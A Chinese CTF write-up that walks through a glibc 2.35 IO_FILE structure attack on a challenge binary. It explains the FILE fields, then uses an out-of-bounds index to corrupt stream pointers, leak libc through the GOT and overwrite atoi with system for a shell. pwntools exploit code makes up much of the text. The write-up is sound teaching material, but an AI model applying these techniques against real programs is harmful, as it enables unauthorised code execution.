# 记一次IO_FILE结构体attack-先知社区

> **来源**: https://xz.aliyun.com/news/17338  
> **文章ID**: 17338

---

### **记一次IO\_FILE结构体attack**

平常做题的时候有没有注意到bss段上的这几个数据

```
.bss:00000000006020C0 _bss            segment para public 'BSS' use64
.bss:00000000006020C0                 assume cs:_bss
.bss:00000000006020C0                 ;org 6020C0h
.bss:00000000006020C0                 assume es:nothing, ss:nothing, ds:_data, fs:nothing, gs:nothing
.bss:00000000006020C0                 public stdout@@GLIBC_2_2_5
.bss:00000000006020C0 ; FILE *stdout
.bss:00000000006020C0 stdout@@GLIBC_2_2_5 dq ?                ; DATA XREF: LOAD:0000000000400470↑o
.bss:00000000006020C0                                         ; deregister_tm_clones+6↑o ...
.bss:00000000006020C0                                         ; Alternative name is '__TMC_END__'
.bss:00000000006020C0                                         ; Copy of shared data
.bss:00000000006020C8                 align 10h
.bss:00000000006020D0                 public stdin@@GLIBC_2_2_5
.bss:00000000006020D0 ; FILE *stdin
.bss:00000000006020D0 stdin@@GLIBC_2_2_5 dq ?                 ; DATA XREF: LOAD:0000000000400488↑o
.bss:00000000006020D0                                         ; init+4↑r
.bss:00000000006020D0                                         ; Alternative name is 'stdin'
.bss:00000000006020D0                                         ; Copy of shared data
.bss:00000000006020D8 completed_7594  db ?                    ; DATA XREF: __do_global_dtors_aux↑r
.bss:00000000006020D8                                         ; __do_global_dtors_aux+13↑w
```

这些是标准输出，标准输入，还有一个错误输出，分别对应的文件描述符1，0，2

我们可以看看这个结构体

```
$2 = {
  file = {
    _flags = 26018464,
    _IO_read_ptr = 0x0,
    _IO_read_end = 0x18d0480 "\300\004\215\001",
    _IO_read_base = 0x0,
    _IO_write_base = 0x0,
    _IO_write_ptr = 0x0,
    _IO_write_end = 0x0,
    _IO_buf_base = 0x0,
    _IO_buf_end = 0x0,
    _IO_save_base = 0x0,
    _IO_backup_base = 0x0,
    _IO_save_end = 0x0,
    _markers = 0x0,
    _chain = 0x0,
    _fileno = 0,
    _flags2 = 0,
    _old_offset = 0,
    _cur_column = 0,
    _vtable_offset = 0 '\000',
    _shortbuf = "",
    _lock = 0x0,
    _offset = 0,
    _codecvt = 0x0,
    _wide_data = 0x0,
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0,
    _mode = 0,
    _unused2 = '\000' <repeats 19 times>
  },
  vtable = 0x0
}

```

那么可以看见现在是**未初始化的状态**，这个跟前面的house of orange 的file结构体是同一个，不过我们当时伪造的是vtable的虚函数表，现在我们重点来看前9个字段

**\_flags**:  
这是一个标志位，用于保存文件流的状态信息。它可以包含多个标志，比如文件是以文本模式还是二进制模式打开的，流是可读、可写还是处于错误状态等。`26018464` 这个值表示了一组特定的状态标志。

**\_IO\_read\_ptr**:  
这是一个指针，指向当前从文件流中读取数据的位置。如果文件流是以读取模式打开的，这个指针会在流中向前移动，指示已经读取到哪里。

**\_IO\_read\_end**:  
这是一个指针，指向文件流中可读缓冲区的末尾。读取操作不能超过这个位置，否则就需要刷新缓冲区或者读取更多的数据。`0x18d0480 "\\300\\004\\215\\001"` 表示这个缓冲区末尾的位置和包含的内容。

**\_IO\_read\_base**:  
这是一个指针，指向文件流中可读缓冲区的开始位置。每次读取操作从这个位置开始，并在 `_IO_read_ptr` 位置结束。

**\_IO\_write\_base**:  
这是一个指针，指向文件流中可写缓冲区的开始位置。写操作将数据从这个位置开始写入文件流。

**\_IO\_write\_ptr**:  
这是一个指针，指向文件流中当前写入数据的位置。它随着写入操作向前移动，指示已经写入的数据位置。

**\_IO\_write\_end**:  
这是一个指针，指向文件流中可写缓冲区的末尾。写入操作不能超过这个位置，否则就需要刷新缓冲区或者扩展缓冲区。

**\_IO\_buf\_base**:  
这是一个指针，指向用于文件流的缓冲区的开始位置。这个缓冲区可以用来存储读或写的数据。

**\_IO\_buf\_end**:  
这是一个指针，指向用于文件流的缓冲区的末尾位置。缓冲区的数据不能超过这个位置。

### 例题演示

### 2.35本地

知道了这些我们现在来看一道题目

首先查看一下保护


64位ida载入

两个功能



create函数会创建一个对象并加入到wizards数组中



另一个函数会存在数组越界的问题，当我们输入负数的时候数组就会越界，我们可以看见wizards[-2]的位置就是log\_file





这个函数还会把读入的数据打印出来



我们可以修改到log\_file + 40处的位置，我们可以看一下log\_file结构体



是不是很眼熟，对就是前面说的那个结构体，而他+40处的位置正好是\_IO\_write\_ptr 的位置，也就是我们可以修改这个指针，如果我们能修改到这个结构体，那么我们就可以像打io\_stout 一样泄露数据，比如我们可以修改 \_IO\_read\_ptr 为got表，那么下次就会从这里读取数据，并打印出来，那么就可以泄露出libc地址了，当然此时的 \_IO\_read\_end的地址要比 \_IO\_read\_ptr 大，刚刚我们看见的是未初始化的结构体，现在我们给他创建一个对象，进行初始化

```
create('flag')
wizard(0,'flag')
```



那么我们现在修改 \_IO\_write\_ptr 指针指向 这个结构体附近



可以看见两者还是挺近的，我们可以把下标输入为-2那么 \_IO\_write\_ptr指针减去的字节数就是 -50 + 我们输入的字节数

```
for i in range(8):
    wizard(-2,b'\x00')


wizard(-2,'\x00'*13)


for _ in range(3):
    wizard(-2,'\x00')
```

这样之后我们再次看看结构体的内容



那么现在我们就可以修改结构体内容了

```
payload = b'\x00' 
payload += p64(0xFBAD24A8)
wizard(0,payload)
payload = p64(elf.got['atoi']) + p64(elf.got['atoi'] + 0x100)
wizard(0,payload)
gdb.attach(io)
atoi_addr = u64(io.recv(8))
success('atoi_addr---->'+hex(atoi_addr))
libc_base = atoi_addr - libc.sym['atoi']
success('libc_base---->'+hex(libc_base))

```





注意此时下标用的是0，这样的话 \_IO\_write\_ptr 就不会再减去50，而且因为此时是因为读取完毕了所以 \_IO\_read\_ptr 又加上了0x20

那么我们如法炮制，修改 \_IO\_write\_ptr 为 atoi的got表

虽然想的没问题，但是在实际操作中，会发现， \_IO\_write\_ptr 会保持不变，原因是我们写入完数据之后， \_IO\_write\_ptr 会再次更新，那么就会导致， \_IO\_write\_ptr 再次被覆盖变成 原来的地址+输入的长度。因此直接修改是行不通的。

在glibc源码里面我们可以分析一下



当 \_IO\_read\_ptr < \_IO\_read\_end 的时候就会直接返回，不会执行我们下面的对 \_IO\_write\_ptr 赋值的要求，下面会把 \_IO\_write\_ptr 等一系列指针指向 \_IO\_buf\_base,那么我们控制到 \_IO\_buf\_base即可以控制 \_IO\_write\_ptr了，那么我们就要保证修改完 \_IO\_buf\_base 之后 \_IO\_read\_ptr < \_IO\_read\_end 这个条件不满足，为了能修改到 \_IO\_buf\_base，除此之外，我们还要保证 [ \_IO\_write\_ptr \_IO\_write\_end] \_IO\_buf\_base 位于这两者之间,我们需要知道 \_IO\_write\_ptr 的值那么我们还要泄露 log\_file 的地址。

```
wizard(-2,p64(0)*3)
login_file = 0x6020E0                    #_IO_read_ptr     #_IO_read_end            # _IO_read_base
payload = b'\x00'*2 + p64(0xFBAD24A8)
wizard(0,payload)
payload =                               p64(login_file) + p64(login_file + 0x50) + p64(login_file)
#gdb.attach(io)
wizard(0,payload)
gdb.attach(io)
log_addr = u32(io.recv(4))
success('log_addr---->'+hex(log_addr))
```

这个login\_file + 0x50 中的 0x50 是一个大概，每次加0x20，只要保证第三次修改之后 \_IO\_read\_ptr > \_IO\_read\_end,就行了

得到log\_file的真实地址之后，我们就可以修改 \_IO\_write\_base \_IO\_write\_ptr \_IO\_write\_end 了，因为之后 \_IO\_write\_ptr 会被覆盖，所以这里使用 0xdeadbeef 来覆盖

```
           #_IO_write_base       #_IO_write_ptr        #_IO_write_end 
payload = p64(log_addr + 0x80) + p64(0xdeadbeef) + p64(log_addr + 0x80)
#gdb.attach(io)
wizard(0,payload)
payload = p64(elf.got['atoi'] + 0x80) + p64(elf.got['atoi'] + 0x800)
wizard(0,payload)
```

当然现在 \_IO\_buf\_base 的地址不能为 atoi的got表，而是要往下去一点，不然覆盖不到 atoi的got表，而且 \_IO\_write\_end需要取大一点，保证能够正确修改



可以看见我们成功把 \_IO\_buf\_base 处的地址赋值给这些指针

那么接下来继续使 \_IO\_write\_ptr 修改到 atio的got表位置，之后修改atoi got表为system

```
wizard(-2,'\x00')
#gdb.attach(io)
wizard(-2,'\x00'*11)
wizard(-2,'\x00'*11)

wizard(0,p64(system))
```

最后输入 sh就可以拿到shell

```
io.sendlineafter('choice>> ','sh')
```



### EXP

```
from pwn import *
context(log_level='debug',arch='amd64',os='linux')


io = process('./magic1')
elf = ELF('./magic1')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def create(msg):
    io.sendlineafter('choice>> ','1')
    io.sendafter('name:',msg)


def wizard(index,name):
    io.sendlineafter('choice>> ','2')
    io.sendlineafter('will spell:',str(index))
    io.sendafter('name:',name)


#gdb.attach(io)
create('flag')
wizard(0,'flag')


gdb.attach(io)

for i in range(8): 
    wizard(-2,b'\x00')


wizard(-2,'\x00'*13)


for _ in range(3):
    wizard(-2,'\x00')


#wizard(-2,'\x00'*9)
#wizard(-2,'\x00')


#gdb.attach(io)


payload = b'\x00'
payload += p64(0xFBAD24A8)  
wizard(0,payload)
payload = p64(elf.got['atoi']) + p64(elf.got['atoi'] + 0x100)
wizard(0,payload)
#gdb.attach(io)
atoi_addr = u64(io.recv(8))  
success('atoi_addr---->'+hex(atoi_addr))
libc_base = atoi_addr - libc.sym['atoi']
success('libc_base---->'+hex(libc_base))
